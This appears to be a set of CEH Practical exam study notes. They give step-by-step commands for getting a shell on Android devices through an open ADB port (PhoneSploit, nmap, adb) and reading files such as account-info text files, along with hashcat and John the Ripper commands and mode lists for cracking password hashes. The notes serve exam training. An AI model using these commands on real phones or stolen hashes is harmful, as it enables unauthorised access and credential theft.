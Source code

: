 # CEH_PRACTICAL
MOBILE (Android):
1)PhoneSploit
https://n00bie.medium.com/hacking-android-using-phonesploit-ffbb2a899e6
	apt-get install adb
	git clone github.com/01010000/phonesploit
	cd phonesploit
	pyhton3 phonesploit.py
	3 (Connect to new phone)
	Add IP address of android device
	4 (Access shell on phone)
	IP address again of android device
	pwd
	ls
	cd sdcard
	ls
	cd downloads
	cat accnt-info.txt
----------------------------------------------------------------------------------------------------------------
1- nmap ip -sV -p 5555    (Scan for adb port)
2- adb connect IP:5555    (Connect adb with parrot)
3- adb shell              (Access mobile device on parrot)
4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
----------------------------------------------------------------------------------------------------------------

CRYPTOGRAPHY:

Hash identifier and Hash cracking
Hash Identifier ; Cryptool ; BCTextEncoder
https://www.onlinehashcrack.com/hash-identification.php
Hash-identifier (CLI)
Hash Crack
https://crackstation.net/
https://hashes.com/en/decrypt/hash
----------------------------------------------------------------------------------------------------------------
HASHCAT:
•	Steps-
1.	First identify hash - use hash-identifier OR john filename OR cyberchef OR any other online tool
2.	Crack - hashcat -m 1800 test.hash -o crack.txt /usr/share/wordlists/rockyou.txt, -m (Hash mode, give number of the hash type identified above) OR hashcat -m 1800 hash...... /usr/share/wordlists/rockyou.txt
----------------------------------------------------------------------------------------------------------------
Hashcat -a 3 -m 900 hash.txt /rockyou.txt
-a attack mode
-m hashtype
900 md4
1000 NTLM
1800 SHA512CRYPT
110 SHA1 with SALT HASH
0  MD5
100 SHA1
1400 SHA256
3200 BCRYPT
160 HMAC-SHA1
----------------------------------------------------------------------------------------------------------------
JOHN
1. First analyze hash type - `john hashfile.hash`
2. Then crack hash - `john hashfile.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1`
3. Show the cracked password - `john --show --format=Raw-SHA1 hashfile.hash` OR `john --show hashfile.hash,